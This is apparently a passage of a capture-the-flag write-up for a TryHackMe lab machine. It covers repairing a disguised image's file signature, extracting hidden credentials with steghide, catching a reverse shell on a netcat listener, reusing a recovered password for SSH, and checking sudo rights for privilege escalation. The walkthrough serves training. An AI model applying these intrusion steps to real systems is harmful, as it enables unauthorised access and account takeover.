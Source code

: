 The oneforall.jpg was corrupted. I can't see what the image is upon opening the file. So, I used 'hexeditor' to look at the file.

<img src=https://github.com/user-attachments/assets/2b958394-f8c6-4bd1-8fd2-61ef2251cad9>

The extension for the file is JPG, but it can be seen that the signature is PNG here. I changed it to the corresponding JPG signature `FF D8 FF E0 00 10 4A 46 49 46 00 01`, (Wikipedia), and I
tried the extraction with steghide again.
```
┌──(kali㉿kali)-[~/Desktop/THM/U.A.HighSchool]
└─$ steghide extract -sf oneforall.jpg
Enter passphrase: 
wrote extracted data to "creds.txt".
```

The creds.txt file contains the credentials for deku

Changing to this user.

```
┌──(kali㉿kali)-[~/Desktop/THM/U.A.HighSchool]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.17.94.32] from (UNKNOWN) [10.10.228.138] 43866
/bin/sh: 0: can't access tty; job control turned off
$ cd /home; ls
deku
$ su deku
Password: One?For?All_!!one1/A                    
whoami
deku
```

I waited for 2 minutes, thinking it was taking time to get the shell. But I have got the shell. In some of the videos related to CyberSecurity on YouTube, I heard of reusing credentials.

Generally, the SSH credentials are not the same as the user's password, but I tried to SSH into deku with the same password, and it worked.

```
┌──(kali㉿kali)-[~/Desktop/THM/U.A.HighSchool]
└─$ ssh deku@10.10.228.138            
deku@10.10.228.138's password: 
...
Last login: Thu Feb 22 21:27:54 2024 from 10.0.0.3
deku@myheroacademia:~$
```

This is better as the Netcat listener can be lost with some connection issues. So I closed it.

Then finding ways for privilege escalation
```
deku@myheroacademia:~$ sudo -l
[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
deku@myheroacademia:~$
```
